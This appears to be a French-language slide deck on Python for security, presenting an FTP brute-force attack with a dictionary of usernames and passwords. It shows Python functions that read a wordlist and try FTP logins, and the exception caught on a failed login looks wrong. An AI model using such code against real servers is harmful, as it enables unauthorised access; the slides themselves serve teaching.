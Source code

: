 # ~ Python appliqué à la sécurité ~

---

## L'attaque des 80's

- Bruteforce de serveur FTP
- Utilisation d'un "dictionnaire" d'utilisateurs et mots de passe
- Total: ~50 lignes de code
- Améliorations possibles:
    - Support des connexions SSL
    - Attaque de plusieurs serveurs simultanément
    - Extraction automatique des fichiers

---

## L'attaque des 80's - Lecture de la wordlist

    !python
    def read_list(filepath):
        data = []
        with open(filepath) as ifile:
            for line in ifile:
                # suppression des caractères de fin de ligne
                line = line.strip('\r\n')
                if line: # une chaîne vide évalue à "False"
                    data.append(line)
        return data

---

## L'attaque des 80's - Connexion

    !python
    def try_login(server, port, username, password):
        ftp = ftplib.FTP()
        ftp.connect(server, port)
        try:
            ftp.login(username, password)
            result = True
        except ftplib.error_reply:
            result = False
        finally:
            # quoi qu'il arrive, refermer la connexion
            ftp.quit()
        return result

---